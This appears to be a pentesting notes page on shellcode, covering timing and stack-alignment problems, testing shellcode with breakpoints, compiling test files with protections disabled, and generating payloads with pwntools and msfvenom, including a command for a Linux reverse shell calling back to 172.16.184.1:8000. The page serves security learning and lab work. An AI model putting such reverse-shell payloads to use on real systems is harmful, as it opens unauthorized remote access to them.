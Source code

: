# Shellcode

## Common Problems

### Don’t Send Data Too Fast

Take into account that sending data too fast might lead to unexpected results, especially in applications that were designed for slow humans.

For example, I couldn’t get a segfault to occur in [Fusion 2](https://exploit.education/fusion/level02/). After I added 1 second sleeps between all the network traffic I sent, it started working 100% of the time.

### **Stack Alignment**

{% embed url="https://githubmemory.com/repo/Gallopsled/pwntools/issues/1870" %}
Reference to the problem
{% endembed %}

You might be required to align the stack to 8 or 16 bytes when doing ROP chains. If your exploit is working locally but not remotely, then this is one possible cause.

## Testing out shellcode <a href="#docs-internal-guid-93dd9c71-7fff-548c-e6c6-1998f3822515" id="docs-internal-guid-93dd9c71-7fff-548c-e6c6-1998f3822515"></a>

### **Breakpoint trick**

If you’re not sure if your shellcode is being hit (for example in a regular execution environment without a debugger), then you can place a `0xCC` instruction (INT3 breakpoint). When that breakpoint is hit, then you will get a message indicating that (Trace/breakpoint trap).

Though, it won't end up in dmesg. If you want it to end up in dmesg, then you can use something that causes a segfault, like `pwn.asm(pwn.shellcraft.i386.crash())` from pwntools. You can also try `pwn.asm(pwn.shellcraft.i386.infloop())` to create an infinite loop.

### Shellcode repository <a href="#docs-internal-guid-8bb984d0-7fff-0c2e-6b7a-d70e39195326" id="docs-internal-guid-8bb984d0-7fff-0c2e-6b7a-d70e39195326"></a>

{% embed url="http://shell-storm.org/shellcode/" %}

But really, using **msfvenom** to generate your own shellcode is better in pretty much every way.

#### **Test files**

There are usually test files along with shellcode. You might need to supply additional options for gcc, like making the stack executable, etc.

```
gcc test.c -o test -fno-stack-protector -z execstack -no-pie
```

## Generating Shellcode <a href="#docs-internal-guid-4e2e7295-7fff-c1d9-0b54-88997d5797ed" id="docs-internal-guid-4e2e7295-7fff-c1d9-0b54-88997d5797ed"></a>

### **Generating shellcode with msfvenom**

You can generate shellcode for a reverse shell using msfvenom.

This is an example of an x86 linux reverse shell, which will connect back to 172.16.184.1 on port 8000. It’s set to python format, so you can paste it into python.&#x20;

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.184.1 LPORT=8000 -a x86 --platform linux -f python
```

You can also assign bytes that the shellcode must not use (like NULL bytes or backslashes). This is useful if you have certain limitations.

### **Generating Assembly Using Pwntools**

{% embed url="https://docs.pwntools.com/en/stable/asm.html" %}
Documentation
{% endembed %}

You can use pwntools to generate the machine code for whatever assembly you want to execute. For example, here is the syntax for doing relative jumps in pwntools on the command line:

```
pwn asm 'jmp $+0x20'
```

And this is how you can do it in Python code:

```
>>> import pwn
>>> pwn.asm('jmp $+0x20')
b'\xeb\x1e'
```

